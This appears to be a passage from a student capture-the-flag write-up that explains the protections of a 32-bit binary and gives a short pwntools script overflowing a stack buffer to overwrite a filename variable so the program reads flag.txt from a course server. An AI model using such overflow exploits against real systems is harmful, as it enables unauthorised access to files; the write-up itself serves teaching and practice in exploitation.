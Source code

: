 Regarding the file protections, we observe the following:
- **Arch:**     i386-32-little
- **RELRO:**    No RELRO
- **Stack:**    No canary found
- **NX:**       NX disabled
- **PIE:**      No PIE (0x8048000)
- **RWX:**      Has RWX segments

So, we have an x86 (32-bit) architecture (Arch), there's no canary, meaning Stack Guard isn't activated (Stack), we have stack execution permission (NX), and Read, Write and execute permission in certain regions of the memory. Finally, address randomization isn't turned on (PIE), and RELRO protection is also deactivated but in this case, it doesn't matter as it is commonly used as protection against ROP chain attacks.

Knowing that, and having the goal of reading the contents of the `flag.txt` file, we had to change the value of the `meme_file` variable from `mem.txt` to `flag.txt`.

To accomplish that, we used the provided python script and started by filling the 20 initial chars of the `buffer` variable with random data, in this case, with 1's, which gave us 8 chars left to exploit the buffer overflow and overwrite the `meme_file` local variable with the desired value of `flag.txt`.

```python=
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"1" * 20 + b"flag.txt")
r.interactive()
```

The following figure illustrates the position of the local variables of the program in the stack after the exploitation:

<figure align="center">